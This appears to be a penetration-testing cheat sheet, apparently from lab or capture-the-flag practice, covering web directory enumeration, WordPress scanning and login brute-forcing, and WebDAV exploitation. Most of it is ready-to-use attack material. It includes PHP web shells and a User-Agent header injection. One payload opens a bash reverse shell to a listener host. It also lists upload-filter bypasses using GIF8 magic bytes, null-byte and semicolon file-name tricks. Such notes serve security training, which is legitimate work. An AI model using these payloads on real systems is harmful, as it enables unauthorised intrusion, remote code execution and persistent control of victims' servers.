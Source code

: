 ```bash

# Use words gathered from webpage to input into gobuster
cewl apocalyst.htb -w cewl.txt → gobuster
gobuster -u http://apocalyst.htb -w cewl.txt -f -l | tee gobuster.txt
cat gobuster.txt | grep -v ‘Size: 157’
```

#### Websites: dirbuster
```bash
# Standard
dirb http://10.10.10.10 /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

# None-recursice dirb
dirb http://10.11.1.10 /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -r
dirb $ip directory-list-2.3-medium.txt
```

#### Websites: nikto
```bash
nikto -host https://10.11.1.10 -o nikto_results -F txt -ssl
```
nikto can bypass as a search engine and sometimes get the robots.txt if hidden
If NIKTO shows that the HOST allows HTTP “PUT”:
Use `davtest` then `cadaver`

#### Websites: wordpress
```bash
wpcan --url http://10.10.10.10 --force
wpscan --url $ip/blog --enumerate --u --log
ruby wpscan.rb --u 10.10.10.10 --threads 20 --wordlist rockyou.txt --username admin
```

#### Websites: davtest/cadaver
```bash
davtest --url http://10.10.10.10
cadaver 10.10.10.10
put shell.txt
mv shell.txt shell.asp
mv shell.txt shell.asp;.txt
```

#### Websites: PHP code
```php
<? php echo system($_REQUEST['ipp']); ?>
User-Agent: <?php system($_REQUEST['ipp']); ?>
<?php shell_exec('bash -i >& /dev/tcp/10.11.0.174/9001 0>&1'); ?>
```

If target is a linux server we can put `GIF8` at top of php code or add a large amount of png code prior to php to fool the server.

Null byte
`shell.php%001.jpg` → Recognized as a `.jpg` at upload but the `%00` terminates file and is treated as a legit php when stored on server.
